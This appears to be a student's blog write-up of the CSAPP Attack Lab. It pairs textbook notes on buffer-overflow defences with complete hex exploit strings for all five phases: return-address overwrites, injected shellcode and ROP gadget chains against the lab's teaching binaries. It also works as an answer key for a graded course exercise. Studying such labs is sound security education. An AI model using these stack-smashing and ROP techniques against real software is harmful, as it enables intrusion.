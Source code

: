 ```yaml
---
title: Lab 3 Attack Lab
date: 2021-02-01 08:51:48
tags: 
- CSAPP

categories: 
- Study

sidebar: True
lang: en-US
---
```



<!-- more -->


## Textbook 3.10 Combining Control and Data in Machine-level Programs

- Function Pointers
  ```C
  int fun(int x, int *p);
  
  int (*fp)(int, int *);
  fp = fun;
  
  int y = 1;
  int result = fp(3, &y);
  ```
- Out of bounds memory and buffer overflow leaves program vulnerable to attacks
- by corrupting the `ret` address
- To thwart buffer overflow attacks
  - **stack randomization**: make it harder for attacker to guess the exact ret address, attackers may use `nop sled` to bypass it
  - **stack corruption detection**  maintain a `canary` value, to check whether buffer overflows
  - **limit executable code regions** three mode of access in instructions for memory: read/write/execute. For historic reasons, x86 will introduce significant inefficiencies while AMD NX(no-execute) bit has no peanalty in efficiency

- To support variable stack size, `$rbp` is used as a frame pointer. Earlier versions of code always uses `$rbp`, while in x86-64 codes, it is used only when stack is of variable size. 


## Attack 1

By making a breakpoint at `getbuf`, we can know the location of return address in the stack frame. We simply fill the buffer area and make an overflow to overwrite the return address to the entry of touch1.

The entry of `touch1` can be found through `disas touch1`.

```
01 00 00 00 00 00 00 00 
02 00 00 00 00 00 00 00 
03 00 00 00 00 00 00 00 
04 00 00 00 00 00 00 00 
05 00 00 00 00 00 00 00 # buf
c0 17 40 00 00 00 00 00 # return add of touch1
```


## Attack 2

The code we will inject is as follows. We put them at the beginning of the buffer area, and then overwrite the return address with the pointer to the beginning of our injection code. At the end of our code, we will call a `ret` instruction. It will check the return address on `%rsp-8`.

In order to jump to `touch2` function, in addition to the return address of our injection code, we also need to overwrite an address to the entry of `touch2` below that return address.


```
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 8b 3c 25 e4 44 60    mov    0x6044e4,%rdi
   7:   00 
   8:   c3                      retq   
```

```
48 8b 3c 25 e4 44 60 00 # mov cookie to rdi and ret
c3 00 00 00 00 00 00 00 # jmp to ret address
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 # return to inj code (buf at line 1)
ec 17 40 00 00 00 00 00 # (on return) jmp destination
```

## Attack 3

Here we need to pass a pointer instead of a value to the `touch3` function.

```
0000000000000000 <.text>:
   0:   48 c7 c7 b0 dc 61 55    mov    $0x5561dcb0,%rdi  # address of cookie string
   b:   c3                      retq   
```

The address should point to a string in the stack frame. Here we append a cookie string at the end of the input. We can locate the address of that string in gdb, so that we can finish encoding the injection code.

```
48 c7 c7 b0 dc 61 55 c3 # mov cookie to rdi and ret
00 00 00 00 00 00 00 00 # jmp
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 # return to inj code (buf at line 1)
fa 18 40 00 00 00 00 00 # (on return) jmp destination
35 39 62 39 39 37 66 61 # <- beg of cookie string
00
```
::: tip
Note that our input string is at a higher address of the stack. Therefore, future function calls that may modify the stack will not interfere with our string. Therefore, the `00` buffer space is not a desired place for the cookie string, since it will be popped when `getbuf` is returned. 
:::

## Attack 4

We first use `objdump -h rtarget` to check the instructions provided by the `farm.c`. After some efforts in observation, we have found two useful utilities.

```
(gdb) x /3i 0x4019ab
   0x4019ab <addval_219+4>:     pop    %rax
   0x4019ac <addval_219+5>:     nop
   0x4019ad <addval_219+6>:     retq 
```

```
(gdb) x /2i 0x4019a3
   0x4019a3 <addval_273+3>:     mov    %eax,%edi
   0x4019a5 <addval_273+5>:     retq   
```

The return-oriented programming is designed as follows. First, we pop a value (the cookie as integer) from stack to a register`%eax`. Then the stack frame pointer will move down a byte. Then it will be redirected to the next utility that pass the value in `%eax` to function argument `%edi`. Then we call the function `touch2`, the attack is done.

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  
ab 19 40 00 00 00 00 00 # return to rax
fa 97 b9 59 00 00 00 00 # pop to rax
a3 19 40 00 00 00 00 00 # return to mov 
ec 17 40 00 00 00 00 00 # return to touch2
```


## Attack 5

By comparing the helper table in Appendix 2 and the instructions in `farm.c`, we can identify two parameter passing chains. One for `movl` and one for `movq`. Both start from `%rax`, where there is a `pop %rax` utility to make use of.

The attack scheme is designed as follows.

### Move rsp pointer to rdi

First, we need to store a `rsp` pointer that points to the cookie string so that we can pass it to the argument of `touch3`. We should move that `rsp` to a register. Note that the `rsp` can be quite large, so we should use the `movl` chain.

```
gdb) x /2i 0x401a06
   0x401a06 <addval_190+3>:     mov    %rsp,%rax
   0x401a09 <addval_190+6>:     retq  
(gdb) x /3i 0x4019a2
   0x4019a2 <addval_273+2>:     mov    %rax,%rdi
   0x4019a5 <addval_273+5>:     retq   
   0x4019a6 <addval_273+6>:     retq 
```

### Move Small number to rsi

Note that `rsp` keeps changing, so an offset is needed. Luckily, we have a utility function `add_xy`. We can make use of the `movl` chain to load an offset and add it to the previously obtained `rsp`.

```
(gdb) x /2i 0x401a07
   0x401a07 <addval_190+4>:     mov    %esp,%eax
   0x401a09 <addval_190+6>:     retq  
(gdb) x /3i 0x401a42
   0x401a42 <addval_487+2>:     mov    %eax,%edx
   0x401a44 <addval_487+4>:     test   %al,%al
   0x401a46 <addval_487+6>:     retq
(gdb) x /3i 0x401a69
   0x401a69 <getval_311+1>:     mov    %edx,%ecx
   0x401a6b <getval_311+3>:     or     %bl,%bl
   0x401a6d <getval_311+5>:     retq  
(gdb) x /3i 0x401a27
   0x401a27 <addval_187+2>:     mov    %ecx,%esi
   0x401a29 <addval_187+4>:     cmp    %al,%al
   0x401a2b <addval_187+6>:     retq  
```

```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```


### Solution

As before, the cookie string will be stored at the highest address. We obtain an `rsp` value first, then calculate the offset. By adding them together and passing the result to `touch3`, the attack is done.

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  
06 1a 40 00 00 00 00 00 # [mov %rsp, %rax], offset from here
a2 19 40 00 00 00 00 00 # [mov %rax, %rdi]
ab 19 40 00 00 00 00 00 # return to [pop %rax]
48 00 00 00 00 00 00 00 # pop the offset to %rax
42 1a 40 00 00 00 00 00 # [mov %eax, %edx]
69 1a 40 00 00 00 00 00 # [mov %edx, %ecx]
27 1a 40 00 00 00 00 00 # [mov %ecx, %esi]
d6 19 40 00 00 00 00 00 # call [add_xy] to add rsp and offset to %eax
a2 19 40 00 00 00 00 00 # [mov %rax, %rdi]
fa 18 40 00 00 00 00 00 # return to touch3
35 39 62 39 39 37 66 61 # [object string], offset to here
00 00 00 00 00 00 00 00
```